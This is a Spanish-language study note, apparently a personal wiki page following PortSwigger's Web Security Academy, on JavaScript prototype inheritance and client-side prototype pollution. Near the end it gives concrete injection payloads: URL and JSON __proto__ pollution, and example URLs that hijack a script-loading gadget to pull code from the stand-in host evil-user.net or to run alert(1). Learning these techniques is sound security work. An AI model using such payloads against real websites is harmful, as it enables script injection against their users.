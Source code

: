```yaml
---
layout: default
title: Theory
---
```

[JavaScript prototypes and inheritance | Web Security Academy](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance)

Usando DOM invader :
[Client-side prototype pollution vulnerabilities | Web Security Academy](https://portswigger.net/web-security/prototype-pollution/client-side#finding-client-side-prototype-pollution-sources-manually)
[Testing for client-side prototype pollution - PortSwigger](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution)


Cada objeto en javascript está asignado a un objeto de otro tipo, por defecto :

```javascript
let myObject = {};
Object.getPrototypeOf(myObject);    // Object.prototype

let myString = "";
Object.getPrototypeOf(myString);    // String.prototype

let myArray = [];
Object.getPrototypeOf(myArray);	    // Array.prototype

let myNumber = 1;
Object.getPrototypeOf(myNumber);    // Number.prototype
```

Estos objetos heredan las propiedades de sus prototipos.
Si un objeto no tiene una propiedad, se mira en su prototipo.
Si creas un objeto vacío :

```javascript
let myObject = {};
```

Y miras sus propiedades, si que tendrá las propiedades de Object.prototype por defecto.

Para ver las propiedades de su prototipo:

```javascript
username.__proto__ 
username['__proto__']
```

```javascript
username.__proto__                        // String.prototype
username.__proto__.__proto__              // Object.prototype
username.__proto__.__proto__.__proto__    // null
```

Se pueden crear :

```javascript
String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}

let searchTerm = "  example ";
searchTerm.removeWhitespace();    // "example"
```

___

URL :

```
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```

```javascript
targetObject.__proto__.evilProperty = 'payload';
```

JSON:

Inyectar esto :
```json
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

```javascript
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');
```

```javascript
objectFromJson.hasOwnProperty('__proto__'); // true
```

Ejemplo de un gadget :

```javascript
let transport_url = config.transport_url || defaults.transport_url;

let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```


